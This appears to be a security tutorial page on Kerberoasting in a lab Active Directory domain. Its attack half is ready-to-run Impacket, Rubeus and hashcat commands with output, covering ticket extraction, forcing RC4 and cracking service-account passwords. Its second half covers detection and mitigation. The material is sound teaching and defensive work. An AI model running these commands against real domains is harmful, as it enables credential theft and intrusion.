

## What Is Kerberoasting?

Kerberoasting exploits a core feature of the Kerberos protocol: any authenticated domain user can request a Service Ticket for any SPN (Service Principal Name — a unique identifier that ties a service to a specific account, used by Kerberos to know which account's key to use when issuing a service ticket) registered in the domain. When you request that ticket, the KDC (Key Distribution Center — the Kerberos authentication server built into every domain controller) encrypts it with the service account's password-derived key and hands it back to you. No special privileges needed. No access to the service required. You save the encrypted ticket and crack it offline to recover the service account's plaintext password. Because the cracking happens entirely on your own machine, there is no lockout risk and no sustained network noise — the domain controller only sees what looks like a routine service access request.

---

## How Does Kerberoasting Work?

When a user wants to connect to a service like `MSSQLSvc/sqlserver.radiant.local`, their machine sends a TGS-REQ (Ticket Granting Service Request — the Kerberos message that asks the KDC for a Service Ticket to access a specific service) to the KDC. The KDC looks up which account owns that SPN, encrypts the Service Ticket with that account's password-derived key, and returns it in a TGS-REP. The requesting user needs no special access to the service — the KDC just hands out the ticket.

An attacker authenticates as any valid domain user, requests [Service Tickets](/docs/kerberos/tickets/) for high-value SPNs, and captures the encrypted blobs. Crack the ticket offline and you have the service account's password.



The attack requires valid domain credentials — but only to authenticate as a domain user before making the TGS-REQ. The actual cracking target is the service account, which the attacker never directly authenticates as.

---

## What Does Kerberoasting Require?

- Valid domain credentials for any account (used only to authenticate — no elevated privileges needed)
- Network access to a domain controller on port 88
- Knowledge of, or ability to enumerate, SPNs registered in the domain

In the [lab](/docs/kerberos/lab-setup/): enumeration credentials `jdoe / Password123!`, service accounts `svc_sql / Service123!` (SPNs: `MSSQLSvc/sqlserver.radiant.local:1433`, `MSSQLSvc/sqlserver.radiant.local`) and `svc_iis / Service456!` (SPNs: `HTTP/webserver.radiant.local`, `HTTP/webserver.radiant.local:8080`).

---

## Enumerating and Extracting Kerberoastable Accounts


  
`GetUserSPNs.py` queries LDAP for all accounts with SPNs registered and immediately requests their Service Tickets in one pass. The `\` at the end of each line is bash's line continuation character — it tells the shell the command continues on the next line. The entire block runs as a single command.

```bash
GetUserSPNs.py \
  radiant.local/jdoe:'Password123!' \
  -request \
  -outputfile kerberoast-hashes.txt \
  -dc-ip 192.168.56.10
```

The flags:
- `radiant.local/jdoe:'Password123!'` — the `domain/username:password` positional argument used to authenticate. Any valid domain account works. The quotes around the password prevent the shell from interpreting special characters like `!`.
- `-request` — automatically requests a Service Ticket for every SPN found and appends the crackable hash to the output file. Without this flag, the tool only lists SPNs — no hashes extracted.
- `-outputfile kerberoast-hashes.txt` — write hashes to a file for offline cracking. Without this, hashes print to stdout only.
- `-dc-ip 192.168.56.10` — the domain controller IP. Required when DNS isn't configured to resolve `radiant.local`.

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

ServicePrincipalName                          Name     MemberOf  PasswordLastSet             LastLogon
--------------------------------------------  -------  --------  --------------------------  ---------
MSSQLSvc/sqlserver.radiant.local:1433          svc_sql            2026-03-12 09:00:00.000000  Never
MSSQLSvc/sqlserver.radiant.local               svc_sql            2026-03-12 09:00:00.000000  Never
HTTP/webserver.radiant.local                        svc_iis            2026-03-12 09:00:00.000000  Never
HTTP/webserver.radiant.local:8080                   svc_iis            2026-03-12 09:00:00.000000  Never

[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc_sql$RADIANT.LOCAL$radiant.local/svc_sql*$b4e1a2...
$krb5tgs$23$*svc_iis$RADIANT.LOCAL$radiant.local/svc_iis*$c7f3d1...
```

The `[-] CCache file is not found. Skipping...` line is not an error. It means no existing Kerberos credential cache (a file on disk that stores previously issued Kerberos tickets, pointed to by the `KRB5CCNAME` environment variable) was found to reuse, so the tool authenticated with the supplied plaintext credentials instead. This is normal behavior when running from a fresh terminal session.

To enumerate only — list SPNs without requesting tickets:

```bash
GetUserSPNs.py \
  radiant.local/jdoe:'Password123!' \
  -dc-ip 192.168.56.10
```

To request the ticket for a single specific account:

```bash
GetUserSPNs.py \
  radiant.local/jdoe:'Password123!' \
  -request-user svc_sql \
  -outputfile svc_sql.txt \
  -dc-ip 192.168.56.10
```

The flags:
- `-request-user svc_sql` — only request the Service Ticket for `svc_sql` rather than every SPN in the domain. Useful to minimize noise when you already know your target.
- `-outputfile svc_sql.txt` — write the hash for this specific account to its own file.

**Requesting AES tickets.** Most modern domains default to returning RC4-encrypted tickets for TGS requests even when AES is supported, because the requesting client must explicitly advertise AES support. To request AES-encrypted tickets using an existing TGT:

```bash
GetUserSPNs.py \
  radiant.local/jdoe:'Password123!' \
  -request \
  -outputfile kerberoast-hashes.txt \
  -dc-ip 192.168.56.10 \
  -k
```

The flags (new flag only — others explained above):
- `-k` — use Kerberos authentication instead of the default plaintext credential exchange. This causes Impacket to use a cached TGT from the credential cache and request AES-encrypted tickets. Requires `KRB5CCNAME` (the environment variable that tells Kerberos tools where to find your credential cache file — set it with `export KRB5CCNAME=/path/to/jdoe.ccache`) to point to a valid TGT. If the service account doesn't have AES keys enrolled (keys are generated at next password change on Windows Server 2008+ domains), the KDC falls back to RC4 regardless.
  
  
**Rubeus** `kerberoast` enumerates SPNs and extracts Service Tickets in one pass. The backtick `` ` `` at the end of each line is PowerShell's line continuation character — the equivalent of bash's `\`, it tells PowerShell the command continues on the next line:

```powershell
.\Rubeus.exe kerberoast `
  /format:hashcat `
  /outfile:C:\Temp\kerberoast-hashes.txt `
  /nowrap
```

The flags:
- `/format:hashcat` — output hashes in `$krb5tgs$` format, ready for hashcat. Alternative: `/format:john` for John the Ripper.
- `/outfile:C:\Temp\kerberoast-hashes.txt` — save hashes to file instead of only printing to console.
- `/nowrap` — print each hash on a single line. Without this, long hashes wrap across multiple lines and break hashcat's parser, which expects one hash per line.

``` {linenos=table}
[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : radiant.local
[*] Searching path 'LDAP://dc01.radiant.local/DC=radiant,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 2

[*] SamAccountName         : svc_sql
[*] DistinguishedName      : CN=svc_sql,CN=Users,DC=radiant,DC=local
[*] ServicePrincipalName   : MSSQLSvc/sqlserver.radiant.local:1433
[*] PwdLastSet             : 3/12/2026 9:00:00 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svc_sql$RADIANT.LOCAL$MSSQLSvc/sqlserver.radiant.local:1433@radiant.local*$b4e1a2...

[*] SamAccountName         : svc_iis
[*] DistinguishedName      : CN=svc_iis,CN=Users,DC=radiant,DC=local
[*] ServicePrincipalName   : HTTP/webserver.radiant.local
[*] PwdLastSet             : 3/12/2026 9:00:00 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svc_iis$RADIANT.LOCAL$HTTP/webserver.radiant.local@radiant.local*$c7f3d1...
```

To roast a single specific account:

```powershell
.\Rubeus.exe kerberoast /user:svc_sql /format:hashcat /nowrap
```

**Forcing RC4 on AES-capable accounts.** If an account shows `Supported ETypes: AES256_HMAC`, the KDC returns an AES-encrypted ticket by default. AES tickets are orders of magnitude slower to crack than RC4. Force RC4 with `/tgtdeleg`:

```powershell
.\Rubeus.exe kerberoast `
  /tgtdeleg `
  /format:hashcat `
  /outfile:C:\Temp\kerberoast-rc4.txt `
  /nowrap
```

The flags (new flags only — others explained above):
- `/tgtdeleg` — TGT delegation: exploits the Kerberos delegation mechanism to request Service Tickets using RC4 encryption even when the target account supports AES. When a service uses TGT delegation to request a ticket on behalf of a user, the resulting ticket is issued as RC4 for compatibility. This only works from a domain-joined machine.
- `/outfile:C:\Temp\kerberoast-rc4.txt` — separate output file to keep RC4 hashes distinct from any AES hashes you may have already collected.
  


---

## Cracking the Hash

Transfer `kerberoast-hashes.txt` to your cracking machine. The `$krb5tgs$` prefix encodes the encryption type — match the hashcat mode to the etype number in the hash:

- `$krb5tgs$23$` — RC4 (etype 23). Mode `13100`.
- `$krb5tgs$17$` — AES128 (etype 17). Mode `19600`.
- `$krb5tgs$18$` — AES256 (etype 18). Mode `19700`.

**RC4 tickets** (mode `13100` — the most common case):

```bash
hashcat -m 13100 kerberoast-hashes.txt /usr/share/wordlists/rockyou.txt
```

```
hashcat (v6.2.6) starting...

$krb5tgs$23$*svc_sql$RADIANT.LOCAL$MSSQLSvc/sqlserver.radiant.local:1433@radiant.local*$b4e1a2...:Service123!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
```

**AES256 tickets** (mode `19700`):

```bash
hashcat -m 19700 kerberoast-hashes.txt /usr/share/wordlists/rockyou.txt
```

```
hashcat (v6.2.6) starting...

$krb5tgs$18$*svc_sql$RADIANT.LOCAL$MSSQLSvc/sqlserver.radiant.local:1433@radiant.local*$...:Service123!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 19700 (Kerberos 5, etype 18, TGS-REP)
```

**AES128 tickets** (mode `19600`):

```bash
hashcat -m 19600 kerberoast-hashes.txt /usr/share/wordlists/rockyou.txt
```

```
hashcat (v6.2.6) starting...

$krb5tgs$17$*svc_sql$RADIANT.LOCAL$MSSQLSvc/sqlserver.radiant.local:1433@radiant.local*$...:Service123!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 19600 (Kerberos 5, etype 17, TGS-REP)
```

With rules for better coverage (applies to any mode — swap `-m 13100` for `19700` or `19600` as needed):

```bash
hashcat -m 13100 kerberoast-hashes.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule
```

The `-r /usr/share/hashcat/rules/best64.rule` flag applies mutation rules to every word in the wordlist — appending numbers, substituting letters for symbols, toggling case — dramatically expanding coverage against passwords like `Service123!` that wouldn't appear verbatim in rockyou.txt.

---

## Operational Notes

**Hash-based authentication.** If you have an NT hash for `jdoe` but not the plaintext password, `GetUserSPNs.py` accepts `-hashes :NThash` in place of a password. The colon-prefix format is standard across all Impacket tools: the field to the left of the colon is the LM hash (left empty — LM hashes are legacy and almost never needed; leaving this side blank is correct), and the field to the right is the NT hash you actually have:

```bash
GetUserSPNs.py \
  radiant.local/jdoe \
  -hashes :a87f3a337d73085c45f9416be5787d86 \
  -request \
  -outputfile kerberoast-hashes.txt \
  -dc-ip 192.168.56.10
```

**Clock skew.** Kerberos enforces a maximum 5-minute clock difference between the attacking machine and the domain controller. If your clock is off, TGS-REQ messages fail with `KRB_AP_ERR_SKEW`. Sync before running:

```bash
sudo ntpdate 192.168.56.10
```

**RC4 vs AES crack speed in practice.** On a consumer GPU:
- RC4 (`$krb5tgs$23$`) — hundreds of millions of guesses per second. A short weak password cracks in seconds.
- AES256 (`$krb5tgs$18$`) — tens of thousands of guesses per second. The exact same password takes orders of magnitude longer.

If an account has AES keys enrolled (generated automatically at the next password change on Windows Server 2008+ domains with `msDS-SupportedEncryptionTypes` configured), the KDC returns AES tickets by default. Use `/tgtdeleg` on Rubeus or the `-k` flag workflow with Impacket to force RC4 when you need crackable hashes faster.

**gMSA immunity.** Managed Service Accounts (MSAs) and Group Managed Service Accounts (gMSAs) are immune to Kerberoasting. Their passwords are 128 bytes of random data, automatically rotated by the KDC on a configured schedule. No wordlist or rule set will crack a 128-byte random password in any realistic timeframe. When you see a Kerberoastable account listed as a gMSA, skip it.

**The TGS ticket is not reusable directly.** A Kerberoast ticket is a Service Ticket, not a TGT (Ticket Granting Ticket — the credential used to request further tickets, which is what enables lateral movement). Cracking the ticket gives you the service account's plaintext password. Use that password to request a real TGT with `getTGT.py` or `Rubeus.exe asktgt`, then proceed normally.

---

## How Do You Detect and Defend Against Kerberoasting?

### What Logs Does Kerberoasting Generate?

- **Event ID 4769** (TGS-REQ) at the DC — every Service Ticket request generates a 4769. Kerberoasting creates a burst of 4769 events from a single source for multiple distinct SPNs in a short time window. The `TicketEncryptionType` field is the most useful detection signal: `0x17` is RC4, `0x12` is AES256. An authenticated user requesting RC4 tickets in a domain that defaults to AES is anomalous and should alert.
- **Event ID 4624** — logon events at any machine the cracked credential is subsequently used to authenticate against. This is the downstream indicator after a successful crack.

### What Logs Does Kerberoasting Not Generate?

- **The offline cracking step** — the hash is cracked entirely on the attacker's machine. No network traffic, no domain events, no authentication attempts against the DC. The domain has no visibility into this phase.
- **A single TGS-REQ from a compromised internal machine** — one request for `MSSQLSvc/sqlserver.radiant.local` looks completely identical to a developer's workstation querying the SQL server legitimately. Volume and targeting patterns are what distinguish an attack sweep from normal use. A single targeted request against one known high-value SPN is essentially invisible.

### How Do You Mitigate Kerberoasting?

- **Strong passwords on service accounts.** Kerberoasting is only dangerous when the cracked password is weak enough to fall to a wordlist. Service accounts should have passwords of 25+ random characters — no wordlist or ruleset will crack those in any practical timeframe. Group Managed Service Accounts (gMSAs) enforce this automatically and should be the default for all new service deployments. Audit existing service account password age:
  ```powershell
  Get-ADUser -Filter {ServicePrincipalName -ne "$null"} `
    -Properties ServicePrincipalName, PasswordLastSet | `
    Select-Object SamAccountName, ServicePrincipalName, PasswordLastSet
  ```

- **Minimize the Kerberoastable attack surface.** Remove SPNs from accounts that don't need them. Every registered SPN is a potential cracking target. Audit with PowerShell (requires RSAT — Remote Server Administration Tools, a set of management utilities for administering Windows Servers and AD from a workstation):
  ```powershell
  Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
  ```
  The `-Filter {ServicePrincipalName -ne "$null"}` expression finds all user accounts where the `ServicePrincipalName` attribute is not empty — meaning at least one SPN is registered. Every entry here is Kerberoastable. Evaluate whether each SPN is still necessary and remove any that aren't.

- **Enable AES-only Kerberos.** Set `msDS-SupportedEncryptionTypes` on service accounts to require AES, removing RC4 from the supported set. This forces AES ticket issuance for any Kerberoasting attempt, dramatically increasing cracking time from seconds to potentially months for the same password. Combined with strong passwords, this makes Kerberoasting practically infeasible.

- **Honeypot SPNs (canary accounts).** Create a fake service account with a convincing SPN — for example, `MSSQLSvc/fake-sqlserver.radiant.local:1433` — and a strong random password that would never be cracked. Configure alerting on Event ID 4769 for that specific SPN. Any Kerberoasting sweep that enumerates all SPNs will request a ticket for the canary and trigger the alert, giving you an early warning before the attacker cracks anything real.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — built-in Kerberoasting detection. Flags RC4 ticket requests in AES-capable domains, high-volume SPN enumeration from a single source, and anomalous TGS-REQ patterns. Correlates across the domain to distinguish a sweep from isolated legitimate requests.
- **Microsoft Sentinel / Splunk** — write a rule on Event ID 4769 where `TicketEncryptionType = 0x17` (RC4) and the requesting account is not on a known-legacy whitelist. A second rule: Event ID 4769 with 5 or more distinct SPNs from a single source IP within 60 seconds. Both are high-signal indicators. Example KQL for Sentinel:
  ```
  SecurityEvent
  | where EventID == 4769
  | where TicketEncryptionType == "0x17"
  | where AccountName !endswith "$"
  | summarize SPNCount = dcount(ServiceName), FirstSeen = min(TimeGenerated)
      by IpAddress, AccountName, bin(TimeGenerated, 1m)
  | where SPNCount >= 3
  ```
- **[Sysmon](/docs/blueteam/lolbins-hunting/)** — not directly applicable to DC-side Kerberos events, but Sysmon on the DC can catch process behavior if Rubeus is executed locally or if unusual [LSASS](/docs/redteam/credential-dumping/) access patterns accompany the kerberoast run.
- **CrowdStrike / [EDR](/docs/redteam/defender-bypass/)** — behavioral detection on Rubeus `kerberoast` command signatures and `GetUserSPNs.py` execution patterns on Linux endpoints. Catching the tool execution before the ticket is requested is the most reliable control, since the network-side request looks legitimate.
- **Purple team tip** — run `GetUserSPNs.py` or `.\Rubeus.exe kerberoast` in your own environment with Windows event logging enabled. Verify your SIEM actually fires on Event ID 4769 with `TicketEncryptionType = 0x17`. If it doesn't alert, your detection is blind to this attack before you ever face a real attacker.

## References

### Original Research
- Tim Medin — "Attacking Kerberos: Kicking the Guard Dog of Hades", DerbyCon (2014)
- Will Schroeder (harmj0y) — "Kerberoasting Without Mimikatz"

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python network protocol library and scripts
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit
- [Hashcat](https://github.com/hashcat/hashcat) — GPU-accelerated password cracker

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-KILE — Kerberos Protocol Extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/)
